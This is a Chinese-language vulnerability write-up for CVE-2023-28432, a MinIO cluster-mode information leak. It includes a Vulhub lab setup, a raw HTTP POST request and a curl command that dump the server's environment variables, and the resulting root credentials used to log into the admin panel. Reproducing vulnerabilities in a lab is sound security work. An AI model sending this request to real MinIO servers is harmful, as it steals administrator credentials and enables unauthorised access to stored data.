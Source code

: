 # CVE-2023-28432

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** MinIO集群模式信息泄漏

# 0x01 漏洞描述

MinIO是一个开源对象存储系统。

集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

# 0x02 影响范围

在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前

# 0x03 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```javascript
docker-compose up -d
```

集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

 ![](attachments/75ad6200-bcdb-4c30-8d97-ec787ee64ca8.png)

# 0x04 漏洞复现

这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：

```javascript
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

 ![](attachments/dd6c223b-d297-4cce-b493-2473c4aaf216.png)也可以直接 curl：

```javascript
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含MINIO_ROOT_USER (accessKey)和MINIO_ROOT_PASSWORD (secretKey)。使用这个账号密码，即可成功登录管理后台：

```javascript
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

 ![](attachments/f39d3e3c-3e84-4bc4-abfd-2ef83ed89d47.png)
